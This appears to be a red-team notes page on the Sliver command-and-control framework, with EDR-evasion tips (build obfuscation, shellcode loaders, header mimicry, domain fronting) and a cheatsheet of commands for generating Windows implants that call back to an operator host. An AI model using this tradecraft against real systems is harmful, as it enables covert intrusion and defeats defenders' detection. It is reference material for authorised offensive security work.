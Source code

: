 # Sliver

[YouTube - The Sliver C2 Framework - Moloch](https://www.youtube.com/watch?v=tkjMZuZ_8nw) description: *"Guest speaker talk on the Sliver C2 Framework by Moloch, the creator of Sliver."*

Inspired by Trusting Trust; TL;DR 3 Pages and attempt to reference Professor Brailsford once a year: The Great, Professor Brailsford reflections: [YouTube Reflections on Trusting Trust - Computerphile](https://www.youtube.com/watch?v=SJ7lOus1FzQ). White paper: [https://www.cs.cmu.edu Thompson_1984_ReflectionsonTrustingTrust.pdf](https://www.cs.cmu.edu/~rdriley/487/papers/Thompson_1984_ReflectionsonTrustingTrust.pdf)
#### Configuration
- OPSEC 
	- [[EDR-Bypass]]ing requires more than just the [garble](https://github.com/burrowers/garble) (use to "*Obfuscate Go builds"*) and [go-donut](https://github.com/Binject/go-donut) - (go port of [donut](https://github.com/TheWover/donut) - *"Generates x86, x64, or AMD64+x86 position-independent shellcode that loads .NET Assemblies, PE files, and other Windows payloads from memory and runs them with parameters"*)
	- Use a custom stager
	- Modify - `~/.sliver/configs/http-c2.json`
	- Change or rotate extensions and filenames used in procedural URL generation
	- Mimic legitimate browser request headers (just take them directly from `Burp Suite`)
	- Mimic legitimate response headers (again, just steal them from some web app)
	- Consider domain fronting (thankfully, the Host header can now be configured)
- Staging 
	- *"Only supports the MSF staging protocol served either over TCP or HTTP/S."*
- Communication
	- Procedural obfuscation - reduce communication profile for operator
	- [Silver's Transport Encryption](https://github.com/BishopFox/sliver/wiki/Transport-Encryption)
	- DNS transport is optimised for speed, not evasion

#### Cheatsheet

[Sliver Wiki](https://github.com/BishopFox/sliver/wiki/)
```go
// Depending on install
// Sometimes not ideal... issues..beware..
sudo sliver
sudo su - ; /root/sliver-server
sliver-server
systemctl <cmd> sliver

sliver

// Display help
help <command>

// For multi-client
multiplayer 
new-operator
// Connect with Client
sliver-client

// View all implants
implants
// Generate Beacons and Sessions
generate
// Provide visiblity over what the implant does on victim 
--debug 
// Choice one C2 endpoint using:
// --wg is wireguard 
--mtls --wg --http --dns
// Session are sessions opsec unsafe
generate --mtls domain.com --os windows --save 
```